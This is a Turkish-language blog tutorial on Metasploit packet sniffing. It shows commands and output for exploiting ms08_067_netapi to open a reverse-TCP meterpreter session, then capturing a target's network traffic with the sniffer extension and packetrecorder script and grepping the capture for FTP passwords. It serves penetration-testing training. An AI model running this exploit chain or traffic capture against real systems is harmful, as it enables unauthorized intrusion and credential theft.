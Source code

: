 ```yaml
---
draft: false

title:  'MSF Paket Dinleme'
date: '2017-06-05T13:32:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Metasploit Framework kullanarak bir hedef bilgisayarda meterpreter shell açtığınızda, bağlandığınız bilgisayarın ağda yaptığı haberleşme esnasında gönderilen ve alınan bilgileri görmek isteyebilirsiniz. Bu işleme\_paket dinleme\_adı verilmektedir." 
 
url:  /tr/msf-paket-dinleme/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Paket Dinleme



Metasploit Framework kullanarak bir hedef bilgisayarda meterpreter shell açtığınızda, bağlandığınız bilgisayarın ağda yaptığı haberleşme esnasında gönderilen ve alınan bilgileri görmek isteyebilirsiniz. Bu işleme **paket dinleme** adı verilmektedir.



Meterpreter, `sniffer` modülü ile bu trafiği kaydedebilirsiniz. Toplamda 200.000 pakete kadar kayıt yapabilen `sniffer` modülü, paketleri PCAP formatında kaydeder. Böylece PCAP dosyasını `psnuffle, dsniff veya wireshark` programlarıyla analiz edebilirsiniz.



Meterpreter `sniffer` eklentisi MicroOLAP Packet Sniffer SDK kullanır. Paketleri dinlemek için diskin herhangi bir yerinden veri alıp verme işlemi yapmaz. Ayrıca, meterpreter tarafından oluşturulan paketler kayıt dışı tutarak karışıklığın önüne de geçer. Meterpreter tarafından yakalanan veriler, bilgisayarımıza SSL/TLS kullanılarak şifreli olarak aktarılır.



## Meterpreter Oturum Açalım



Öncelikle keşfettiğiniz bir servis veya zafiyeti kullanarak meterpreter oturumu açmalısınız. Aşağıda örneğini görebilirsiniz.


```bash
msf > use exploit/windows/smb/ms08_067_netapi
msf exploit(ms08_067_netapi) > set PAYLOAD windows/meterpeter/reverse_tcp
msf exploit(ms08_067_netapi) > set LHOST 10.211.55.126
msf exploit(ms08_067_netapi) > set RHOST 10.10.1.119
msf exploit(ms08_067_netapi) > exploit

> Handler binding to LHOST 0.0.0.0
> Started reverse handler
> Triggering the vulnerability...
> Transmitting intermediate stager for **over-sized stage...(216 bytes)
> Sending stage (205824 bytes)
> Meterpreter session 1 opened (10.10.1.4:4444 -> 10.10.1.119:1921)
```



## Sinffer Modülünü Yükleyelim



Meterpreter oturumu açıldığında `use sniffer` komutuyla eklentiyi aktif hale getirmeliyiz. Ardında `help` komutunu verdiğinizde, yardım listesinde `sniffer` ile ilgili kullanılabilir durumda olan komutları görebilirsiniz.


```bash
meterpreter > use sniffer
Loading extension sniffer...success.

meterpreter > help

Sniffer Commands
**================**

     Command             Description
     -------             -----------
     sniffer_dump        Retrieve captured packet data
     sniffer_interfaces  List all remote sniffable interfaces
     sniffer_start       Capture packets on a previously opened interface
     sniffer_stats       View statistics of an active capture
     sniffer_stop        Stop packet captures on the specified interface
```



## Dinlenebilir Arayüzler



Hedef sistemde hangi ağ arayüzlerinin aktif olduğunu görmek için `sniffer_interfaces` komutunu kullanarak listeyi inceliyoruz.


```bash
meterpreter > sniffer_interfaces

1 - 'VMware Accelerated AMD PCNet Adapter' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )
```



## Dinlemeye Başlama



Bizim örneğimizde 1 adet arayüz bulunmaktadır. Bu ağ cihazını dinlemek için `sniffer_start 1` komutunu veriyoruz. Bilgiler `/tmp/all.cap` dosyasına kayıt edilecektir.


```bash
meterpreter > sniffer_start 1
> Capture started on interface 1 (200000 packet buffer)
```



## Kayıtları Kontrol Etme



Dinleme işlemi devam ederken, ne kadar paketin kayıt edildiğini görmek için `sniffer_dump` komutunu kullanarak kaç adet paketin dosyaya yazıldığını görebilirsiniz.


```bash
meterpreter > sniffer_dump 1 /tmp/all.cap
> Dumping packets from interface 1...
> Wrote 19 packets to PCAP file /tmp/all.cap

meterpreter > sniffer_dump 1 /tmp/all.cap
> Dumping packets from interface 1...
> Wrote 199 packets to PCAP file /tmp/all.cap
```



## packetrecorder Eklentisi



Meterpreter `sniffer` eklentisinin yanında paket dinleme için geliştirilen `packetrecorder` script kodlarını da kullanabilirsiniz. Bu modül, paket kayıtlarını belirli zaman aralıklarına bölmenizi sağlar. Örneğin 30 Saniye aralıklarla kayıt yapmak isteyebilirsiniz.



<h3 class="wp-block-heading" id="packetrecorder-aktif-hale-getirelim">packetrecorder Aktif Hale Getirelim


```bash
meterpreter > run packetrecorder 
Meterpreter Script for **capturing packets **in **to a PCAP file
on a target host given a interface ID.

OPTIONS:

    -h        Help menu.
    -i   Interface ID number where all packet capture will be **done**.
    -l   Specify and alternate folder to save PCAP file.
    -li        List interfaces that can be used for **capture.
    -t   Time interval **in **seconds between recollection of packet, default 30 seconds.
```



Dinlemeye başlamadan önce, dinlenebilir arayüzlerin listesini kontrol edelim.


```bash
meterpreter > run packetrecorder -li

1 - 'Realtek RTL8139 Family PCI Fast Ethernet NIC' ( type:4294967295 mtu:0 usable:false dhcp:false wifi:false )
2 - 'Citrix XenServer PV Ethernet Adapter' ( type:0 mtu:1514 usable:true dhcp:true wifi:false )
3 - 'WAN Miniport (Network Monitor)' ( type:3 mtu:1514 usable:true dhcp:false wifi:false )
```



Bu örneğimizde 3 adet ağ cihazı olduğunu görüyoruz. `-i 2` seçeneği ile 2 numaralı arayüzü dinleyeceğimizi belirtmiş oluyoruz. `-l /root/` seçeneği ile PCAP dosyasının nereye kayıt edileceğini belirliyoruz. Dinleme başladığından bir süre sonra işlemi bitirmek için `CTRL+C` tuşlarını kullanabilirsiniz.


```bash
meterpreter > run packetrecorder -i 2 -l /root/
> Starting Packet capture on interface 2
**[**+] Packet capture started
> Packets being saved **in **to /root/logs/packetrecorder/XEN-XP-SP2-BARE_20101119.5105/XEN-XP-SP2-BARE_20101119.5105.cap
> Packet capture interval is 30 Seconds
^C
> Interrupt 
**[**+] Stopping Packet sniffer...
meterpreter >
```



Kayıt edilen PCAP dosyasını `wireshark` veya `tshark` programıyla analiz edebilirsiniz. Aşağıda `tshark` komutuna ait bir örnek bulunmaktadır. Örnek komutta, paketlerin içinde geçen `PASS` ifadesinin bulunduğu paketler aranmaktadır.


```bash
root@kali:~/logs/packetrecorder/XEN-XP-SP2-BARE_20101119.5105# tshark -r XEN-XP-SP2-BARE_20101119.5105.cap |grep PASS
Running as user "root" and group "root". This could be dangerous.
2489  82.000000 192.168.1.201 -> 209.132.183.61 FTP Request: PASS s3cr3t
2685  96.000000 192.168.1.201 -> 209.132.183.61 FTP Request: PASS s3cr3t```

